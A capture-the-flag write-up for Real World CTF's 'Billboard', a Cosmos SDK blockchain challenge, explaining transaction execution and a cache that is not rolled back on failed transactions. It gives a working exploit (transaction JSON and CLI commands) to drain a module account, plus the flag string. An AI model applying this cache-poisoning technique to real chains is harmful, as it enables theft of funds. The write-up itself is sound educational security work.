


# Intended Solution to *Billboard* in Real World CTF 2020/2021

## Overview
*Billboard* is a **public chain CTF challenge** built by using [Cosmos SDK](https://cosmos.network/) and [Tendermint](https://tendermint.com/). 

Note that there hasn't been any kind of challenges like this before. ~~And this might be a big reason why few people work on this challenge :(~~


## Cosmos
This chapter is intended to provide a brief introduction to the underlying Cosmos SDK for those who are not familiar with it. 

### Cosmos Blockchain

Loosely speaking, a blockchain is made up of many blocks chained together by some cryptographic methods. Each block contains plenty of transactions. Transactions record the state transition of the whole blockchain world state.

In Cosmos, when a new block is to be linked to the chain, it will experience 4 periods: `BeginBlock`, `DeliverTx`, `EndBlock` and finally `Commit`. 

Here, we will only focus on the `DeliverTx` period.

### Transaction Execution

During `DeliverTx`, each transaction will be executed. 

A transaction is described by the data structure `StdTx`:

```go
// StdTx is a standard way to wrap a Msg with Fee and Signatures.
type StdTx struct {
	Msgs       []sdk.Msg      `json:"msg" yaml:"msg"`
	Fee        StdFee         `json:"fee" yaml:"fee"`
	Signatures []StdSignature `json:"signatures" yaml:"signatures"`
	Memo       string         `json:"memo" yaml:"memo"`
}
```

It's worth noting that a transaction consists of a slice of `Msg`. In other words, a transaction can be filled with more than one `Msg`, but usually only one. 

When the transaction is delivered to execution, all of its `msgs` will be extracted (`msgs := tx.GetMsgs()`). After that, all the `msgs` will be put through the basic validation check (`validateBasicTxMsgs(msgs)`). If passed, `msgs` will be sent to run (`runMsgs(...)`). 

```go
func (app *BaseApp) runTx(mode runTxMode, txBytes []byte, tx sdk.Tx) (gInfo sdk.GasInfo, result *sdk.Result, err error) {
    // ...
    
    // https://github.com/cosmos/cosmos-sdk/blob/v0.39.1/baseapp/baseapp.go#L590-L593
    msgs := tx.GetMsgs()
    if err := validateBasicTxMsgs(msgs); err != nil {
        return sdk.GasInfo{}, nil, err
    }
    // ...
    
    // https://github.com/cosmos/cosmos-sdk/blob/v0.39.1/baseapp/baseapp.go#L634-L642
    runMsgCtx, msCache := app.cacheTxContext(ctx, txBytes)
    
    result, err = app.runMsgs(runMsgCtx, msgs, mode)
    if err == nil && mode == runTxModeDeliver {
        msCache.Write()
    }
    // ...
}
```

Here's another important point to note, in case something wrong occurs when handling all the `msgs`, a copy of the current state is made by creating a cache named `msCache`. And on `msCache` is all the access (both reading and writing) to the underlying KVStore database during the handling. If `runMsgs` doesn't return an error, the modification on `msCache` will then be written to the current state (`msCache.Write()`). Otherwise (any of the `msgs` fails), the whole transaction is considered as a failure, and no alteration will be made on the state. That's to say, Cosmos will **revert** the state transition when handling a failed `msg`, which is pretty reasonable.

Understanding this mechanism of Cosmos's transaction execution contributes to later exploitation.

### Msg Handling

But how is `msg` handled? To explore the reason, we need to dive into the `runMsgs` function.

Inside `runMsgs`, each `msg` is iterated over. For each `msg`, it is routed to its matched handler according to its type. And the handler will handle the `msg`, where the function of the `msg` is achieved.

```go
// https://github.com/cosmos/cosmos-sdk/blob/v0.39.1/baseapp/baseapp.go#L658-L687
func (app *BaseApp) runMsgs(ctx sdk.Context, msgs []sdk.Msg, mode runTxMode) (*sdk.Result, error) {
    // ...
    for i, msg := range msgs {
        // ...
        msgRoute := msg.Route()
        handler := app.router.Route(ctx, msgRoute)
        if handler == nil {
            return nil, sdkerrors.Wrapf(sdkerrors.ErrUnknownRequest, "unrecognized message route: %s; message index: %d", msgRoute, i)
        }

        msgResult, err := handler(ctx, msg)
        if err != nil {
            return nil, sdkerrors.Wrapf(err, "failed to execute message; message index: %d", i)
        }
        // ...
	}
    // ...
}
```

By utilizing Cosmos SDK, developers are free to define any kind of `Msg` they like, and as long as they implement the necessary interfaces and a handler, they can make their `Msg` do anything they want to do. Furthermore, developers can develop any application they would like on blockchain.

>About Cosmos, you can find more on its [well-written documentation](https://docs.cosmos.network/v0.39/).

## Billboard Game
Back to this challenge, it's now clear that this challenge is a billboard application based on Cosmos SDK.

You can post your advertisements on the billboard as well as delete them. Meanwhile, you are enabled to deposit some ctc coins into your ad, and the more bucks you drop, the higher your ad will rank. Also, if you want, you can withdraw any money stored inside the ad.

All of these sorts of stuff can be easily achieved by sending the specified type of msg embedded in a transaction towards the blockchain.

For example, to create an advertisement, you should craft a `MsgCreateAdvertisement` type msg, fill it into a transaction, sign the transaction and finally broadcast the signed transaction to the blockchain nodes. Sounds burdensome? Don't worry, all of the tricky work can be handled by simply typing the following command:

```shell
$ billboardcli tx billboard create-advertisement $ID $CONTENT --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```

> You ought to build the cmd tool `billboardcli` and, if any reproduction purpose, start a testnet chain by following the [provided instructions](https://github.com/iczc/billboard/blob/main/readme.md).

> Note: Each account can only create a single ad, and the ad ID is unique. 
> In case you don't know what your ad ID is, you can find it out by reading the [source code](https://github.com/iczc/billboard/blob/main/x/billboard/types/msg.go#L57).

And then, you can try your best to get your ad ranked as high as possible. Or ..., find some vulnerability and exploit it to capture the flag! 


## Challenge Analysis
### Goal
In order to get the flag, we must send a successful transaction containing a `CaptureTheFlag` type msg.

But, how can we send such a transaction successfully? 

By analyzing the [source code](https://github.com/iczc/billboard/blob/main/x/billboard/handler.go#L134), we can find out that we need to possess an ad and EMPTY the balance of the specified module account.

Now, the question is how and when the module account is created.

It turns out that all that happens when we [create an ad](https://github.com/iczc/billboard/blob/main/x/billboard/handler.go#L41-L48). At the time when we create an ad, a module account named by the ad ID is also generated, whose balance is initialized to 100ctc.

So, everything is now obvious that the KEY to solve this challenge is to **steal the 100ctc out from this module account**!

### Attempts

We first look at the `Advertisement` data structure. There exists a `Deposit` field to show how many coins the creator has dropped into this ad.

```go
// https://github.com/iczc/billboard/blob/main/x/billboard/types/types.go#L16-L21
type Advertisement struct {
	Creator sdk.AccAddress `json:"creator" yaml:"creator"`
	ID      string         `json:"id" yaml:"id"`
	Content string         `json:"content" yaml:"content"`
	Deposit sdk.Coin       `json:"deposit" yaml:"deposit"`
}
```

Afterward, we can search for any method that can modify the balance of the module account, but only to find 2 ways -- either by `MsgDeposit` or by `MsgWithdraw`.

`MsgDeposit` is used to deposit several ctc coins into the ad. After layer upon layer check, your deposited coins are transferred to the module account. Meanwhile, the `Deposit` field of your ad is increased as well. 

For instance, you can deposit 100ctc coins to your ad by typing the following command:

```shell
$ billboardcli tx billboard deposit $ID 100ctc --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```

And the entire state transition can be described by the picture below.


> We ignore the fee deduction in the picture.

`MsgWithdraw` is aimed at withdrawing the `Deposit` from the ad. `Withdraw` function will first check if the requested amount is greater than `Deposit`. If not, it will then transfer the coins from the module account back to your account.

By executing the next command, you can withdraw 50ctc coins.

```shell
$ billboardcli tx billboard withdraw $ID 50ctc --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```



As we can see in the source code, the check when handling `MsgDeposit` and `MsgWithdraw` is extremely strict. We cannot deposit or withdraw negative amount of coins, nor withdraw coins more than you deposit. 

There is no way that we can make the balance of the module account below 100ctc! 

So, how come it possible that we empty the balance? 

### The cache!
We notice that the billboard application utilizes a memory cache mechanism for its advertisement data. 

When reading advertisement data, [the cache in memory is always accessed first](https://github.com/iczc/billboard/blob/main/x/billboard/keeper/keeper.go#L50). As soon as the advertisement data is modified, [it will be updated to KVStore as well as the cache](https://github.com/iczc/billboard/blob/main/x/billboard/keeper/keeper.go#L98-L99).

So, do you have any thought now? What if a tx failed?

It's known that failed transactions will be reverted by the blockchain system. In this application, it's the same but the cache DOES NOT rollback. Any modification that happens in cache remains, regardless of success or failed of the tx. 

Based on this observation, we can manage to achieve the goal by **poisoning the cache**. 

We can first deposit some coins, say 100ctc, and then cause the entire transaction failed. The deposited money is added in the cache, but the balance won't change. Through this way, we can have 100ctc increased in the `Deposit` field of our ad in cache. What left to us is just withdraw the 100ctc from the module account, thus emptying the balance and achieving the goal!



> You may ask how to fail the entire transaction. It's simple, just fill a transaction with a `MsgDeposit` type msg followed by a meant-to-fail msg.

<!-- The Cosmos SDK provides a multistore for persisting state. `CommitMultiStore` is the main state of the application, `deliverState` is a cache based on the main state and will be set at BeginBlock. All state updates during DeliverTx is written to `deliverState`. `msCache` is generated based on `deliverState` during transaction processing. The access to KVStore in the msg procession period is actually on `msCache`. Only all the msg in the Tx are successfully processed, the changes in the `msCache` will be written to the `deliverState`, which is further written to `CommitMultiStore` during Commit stage. -->

### Exploit

Now we have known that the transaction is successful if only all msgs in the transaction is executed successfully, and failed tx will be reverted, but the changes in cache will remain rather than rollback.

So the idea is to poison cache with a failed multi msgs transaction:

1. Construct a transaction, which contains 2 msgs. 
   msg1: deposit 100ctc to the ad
   msg2: a meant-to-fail msg (like deleting a Non-exist advertisement)

```JSON
{
    "type": "cosmos-sdk/StdTx",
    "value": {
        "msg": [
            {
                "type": "billboard/deposit",
                "value": {
                    "id": "75b6a9be95d0c525eaac199cef2ab63ad2fe4d0da7080b2d9d631fb69aa1b01a",
                    "amount": {
                        "denom": "ctc",
                        "amount": "100"
                    },
                    "depositor": "cosmos12kgjc5jmqrnskzxuxte9pl4drc7keulzl4jjgv"
                }
            },
            {
                "type": "billboard/DeleteAdvertisement",
                "value": {
                    "id": "kumamon",
                    "creator": "cosmos12kgjc5jmqrnskzxuxte9pl4drc7keulzl4jjgv"
                }
            }
        ],
        "fee": {
            "amount": [
                {
                    "denom": "ctc",
                    "amount": "10"
                }
            ],
            "gas": "200000"
        },
        "signatures": null,
        "memo": ""
    }
}
```

2. Sign and broadcast the transaction 
```shell
$ billboardcli tx sign tx.json --from $KEY --chain-id mainnet --node $RPC > signtx.json
$ billboardcli tx broadcast signtx.json --node $RPC
```

3. Withdraw the initialized 100ctc
```shell
$ billboardcli tx billboard withdraw $ID 100ctc --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```
Let’s see what’s happening here:

- msg1 updates the KVStore and cache, but due to the failure of msg2 the modification on KVStore is reverted while that on cache reserves.
- Since the cache is read first, withdraw tx will be executed successfully and finally written to the underlying KVStore. Therefore, the 100ctc is transferred from the module account to our account.

4. So now module account is empty and we can capture the flag !!!
```shell
$ billboardcli tx billboard ctf $ID --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```

rwctf{7hi$1S@C4ChE_l1FeCyc13_vUl_1n_Co5m0S5dk}